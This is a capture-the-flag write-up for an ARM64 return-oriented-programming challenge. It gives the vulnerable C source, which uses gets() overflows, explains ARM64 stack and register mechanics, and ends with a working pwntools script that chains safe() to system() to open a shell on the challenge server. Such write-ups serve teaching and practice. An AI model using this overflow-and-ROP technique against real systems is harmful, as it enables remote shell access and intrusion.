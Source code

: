 ```yaml
---
title : "M1 [Pwn]"
categories: BOH2023
---
```


Simple ARM64 Return-Oriented Programming (ROP).

*Disclaimer: I didn't get to finish this during the CTF because skill issues :(*

[m1.tar](/files/boh2023/m1.tar){: .btn .btn--info}

# Going through the program

The source code is so short I can just put everything here. (Took away `setup` to save space. Not important.)

```c
#include <stdio.h>
#include <stdlib.h>

char name[0x10];

void safe(void) {
    system("echo -n 'What is your name? '");
    gets(name);
}

void vuln(void) {
    char buf[0x10];
    system("echo -n 'Are you running M1? '");
    gets(buf);
}

int main(void) {
    system("echo -n 'Choose wisely\n1. safe\n2. vuln\n> ' ");
    unsigned int choice;
    scanf("%d%*c", &choice);
    switch (choice) {
    case 1:
        safe();
        break;
    case 2:
        vuln();
        break;
    default:
        break;
    }
    return 0;
}
```

So... the buffer overflow here is just screaming at your face.

{% include image.html url="/assets/images/boh2023/m1_checksec.png" description="Sanity check :D" %}

It's a very basic ROP question with no PIE, a place for you to put your own "/bin/sh" string, and `system` called and linked for you to return to. But I got punched in the face because it's ARM64. (first time doing ARM)

# A very brief and hand-wavey explanation to ARM ROP

The key difference between x86 and ARM is that:

1. x86 uses the stack to store the return address and base pointer, while ARM uses `lr` (link register, or x30) and `fp` (frame pointer, or x29) registers.
2. x86 (64 bit) uses RDI, RSI, RDX, RCX, R8, and R9 (+ the stack) for parameters, while ARM uses x0 to x7 (v0 to v7 for floating point parameters).

You might wonder for the 1st point, what happens if there is more than 1 level of function calling (e.g. `A() -> B() -> C()`), then the return address of the previous function call is replaced and lost. Props to you if you thought of this because it means you're actively thinking :D  

The use of registers is to minimize stack usage (slow) unless the called function (`B()`) performs an inner function call (`C()`) too. In those cases, this instruction

```nasm
    stp   x29,x30,[sp, #-0x10]!
```

will store the contents of these two registers onto the stack. ARM loads and stores pairs of register with one instruction. 16 bytes at a time. Very cool.

So, the consequences of this change is that our ROP chain isn't triggered upon the first return, since it returns based on the register content. But after returning, it will recover the "previous address" from the stack, and the next return will trigger the ROP chain. (If we buffer overflow and input ROP chain in `C()`, then it is triggered when `B()` returns to `A()`)

There needs to be one more care to our ROP chain, which is to consider the local variables in the first function we return to (`B()`), as the stack frame will be cleared and the stack will shrink before obtaining the next "saved return address".

Make sure to round **up** the padding here to be 16-byte aligned because ARM will allocate the stack frame like this.

# Solution

So the solution is to call `vuln` and buffer overflow. After we return from `main`, we should jump to `safe`, where we write the string "/bin/sh" into `name`, then return to `system` with `name` as the parameter.

But the question is: How do we pass "/bin/sh" into `system`?

We know that we need the pointer to the string `name` to be in register x0. But when we use `ROPgadget` or `ropper`, we find no useful gadgets to use. However, notice that after we write our string, the register x0 is still pointing at `name` due to `gets` using it, and is not changed until we return from `safe` and after going into `system`.

{% include image.html url="/assets/images/boh2023/m1_safe.png" description="" %}

This means that we can just go from `safe` to `system` without populating the parameter.

One last thing:

The addresses of `safe` and `system` are fixed since there's no PIE.

```
objdump -d m1 | grep safe
  40071c: b0000093     	adrp	x19, 0x411000 <safe+0x1c>
0000000000400744 <safe>:
  40074c: 90000000     	adrp	x0, 0x400000 <safe+0x8>
  400844: 97ffffc0     	bl	0x400744 <safe>


objdump -d m1 | grep system
  4005b4: 90000090     	adrp	x16, 0x410000 <system@plt+0x4>
00000000004005f0 <system@plt>:
  400754: 97ffffa7     	bl	0x4005f0 <system@plt>
  400780: 97ffff9c     	bl	0x4005f0 <system@plt>
  400814: 97ffff77     	bl	0x4005f0 <system@plt>
```

# Final Script
```python
from pwn import *

DEBUG = True

safe = 0x400744
system = 0x4005f0

conn = remote("127.0.0.1", 1234) if DEBUG else remote("54.158.139.58", 1234)

conn.sendlineafter(b"> ", b"2")

payload = b"A" * 0x10
payload += b"B" * 8 + p64(safe+4) # put /bin/sh in `name`
payload += b"C" * 0x10            # stack frame of `main`
payload += b"B" * 8 + p64(system) # call `system` with reg x0 pointing at /bin/sh

conn.sendlineafter(b"? ", payload)

conn.sendlineafter(b"? ", b"/bin/sh\x00")

conn.interactive()
```
